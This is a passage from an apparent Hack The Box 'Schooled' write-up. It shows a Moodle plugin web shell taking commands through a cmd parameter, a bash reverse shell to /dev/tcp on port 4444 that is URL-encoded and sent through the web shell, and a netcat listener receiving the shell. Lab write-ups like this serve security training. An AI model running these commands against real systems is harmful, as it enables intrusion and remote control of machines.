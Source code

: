 Scroll to the bottom and click on Continue. Finally we end up here:

![schooled-rce-installed](/assets/images/2021-09-22-22-38-33.png)

## Web Shell

Now switch to the console to check our web shell is working:

```text
┌──(root💀kali)-[~/htb/schooled]
└─# curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
uid=80(www) gid=80(www) groups=80(www)
```

## Reverse Shell

Nice, we have remote command execution. Let's start a reverse shell:

```text
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.227/4444 0>&1'
```

We need to URL encode it, then send with a netcat listener waiting in another terminal:

```text
┌──(root💀kali)-[~/htb/schooled]
└─# curl http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.227%2F4444%200%3E%261%27
```

Switching to netcat we see we are in:

```text
┌──(root💀kali)-[~/htb/schooled]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.227] from (UNKNOWN) [10.10.10.234] 34939
bash: cannot set terminal process group (2026): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ 
```

First thing we need to upgrade to a better shell, python isn't in the path but we can find it easily:
